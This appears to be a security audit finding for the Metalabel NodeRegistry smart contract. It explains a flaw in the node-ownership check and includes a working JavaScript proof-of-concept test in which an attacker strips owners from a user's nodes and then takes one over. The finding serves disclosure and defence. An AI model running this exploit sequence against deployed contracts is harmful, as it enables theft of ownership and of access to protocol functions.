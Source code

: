 https://github.com/metalabel/metalabel-contracts-v1/blob/effe2e89996d6809c5ec6c6da10c663246f91fc1/contracts/NodeRegistry.sol#L222-L246

See the second check (`else if`). If a node has no owner and at the same time its group node has no owner as well, any attacker can pass this check if they have to registered account in the `AccountRegistry` (`accounts.resolveId(msg.sender)` is equal to 0).

In combination with c-1-attacker-can-directly-remove-owner-of-any-node which proved that any malicious user can remove the owner of any node, the only condition to take ownership of any node is that it has a group node.

After the exploit, the attacker will have access to all the critical functionality in the Metalabel smart contracts protocol, which has some kind of node access control / authorization mechanism.

#### **Proof Of Concept**

Place the following test case in [test/NodeRegistry.spec.ts](https://github.com/metalabel/metalabel-contracts-v1/blob/effe2e89996d6809c5ec6c6da10c663246f91fc1/test/NodeRegistry.spec.ts)

```js
const [user, attacker, attacker2] = await ethers.getSigners();

// User creates an account.
await accountRegistry.createAccount(user.address, "");
const userAccountId = await accountRegistry.resolveId(user.address);

// User creates a node and sets their Metalabel account as the owner of this node.
await createNode({ owner: userAccountId.toNumber() });
const userNode1Id = await nodeRegistry.totalNodeCount();

// User creates a second node and sets their Metalabel account as the owner of this node and
// passes the userNode1Id as a group node.
await createNode({
  owner: userAccountId.toNumber(),
  groupNode: userNode1Id.toNumber(),
});
const userNode2Id = await nodeRegistry.totalNodeCount();

// Assert setup.
expect(await nodeRegistry.ownerOf(userNode1Id)).to.eq(userAccountId);
expect(await nodeRegistry.ownerOf(userNode2Id)).to.eq(userAccountId);
expect(await nodeRegistry.groupNodeOf(userNode2Id)).to.eq(userNode1Id);

// Attacker that has no Metalabel account calls nodeRegistry.completeNodeOwnerTransfer for both user's nodes.
expect(await accountRegistry.resolveId(attacker.address)).to.eq(0);
await nodeRegistry.connect(attacker).completeNodeOwnerTransfer(userNode1Id);
await nodeRegistry.connect(attacker).completeNodeOwnerTransfer(userNode2Id);

// Attacker deletes the owner of the user's node.
expect(await nodeRegistry.ownerOf(userNode1Id)).to.eq(0);
expect(await nodeRegistry.ownerOf(userNode2Id)).to.eq(0);

// Attacker uses a second ethereum address that we owns and registers a Metalabel account with it.
await accountRegistry.createAccount(attacker2.address, "");
const attacker2AccountId = await accountRegistry.resolveId(attacker2.address);

// Attacker calls nodeRegistry.startNodeOwnerTransfer and steals the ownership of the second user's node.
await expect(
  nodeRegistry
    .connect(attacker)
    .startNodeOwnerTransfer(userNode2Id, attacker2AccountId)
).to.not.be.reverted;

// Exploit is successful.
```